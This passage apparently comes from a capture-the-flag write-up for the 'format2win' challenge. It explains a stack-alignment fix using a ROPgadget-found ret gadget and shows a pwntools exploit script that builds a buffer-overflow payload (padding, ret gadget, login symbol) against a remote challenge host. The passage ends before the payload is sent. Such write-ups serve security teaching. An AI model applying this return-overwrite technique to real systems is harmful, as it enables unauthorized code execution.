 However when we run it remotely, no flag shows up:

![IMG](/assets/images/boh2022-format2win/img10.png)

Execute the exploit remotely with debugging enabled shows this error:

![IMG](/assets/images/boh2022-format2win/img11.png)

From my past experiences, more or less this issue is related to **Stack Alignment**, we can fix it by adding a `ret` gadget before the return address. We can find the gadget using `ROPgadget`:
```
ROPgadget --binary format2win | grep ret
```
![IMG](/assets/images/boh2022-format2win/img12.png)

## Final Exploit
```py
from pwn import *

# Set up pwntools for the correct architecture
exe = './format2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# Start program
io = remote("18.143.17.69", 9001)
#io = process(exe)

offset = 0x58
ret = 0x0000000000401016

# Construct payload
payload = flat([
    offset * b'A',
    ret,
    elf.symbols.login
])
```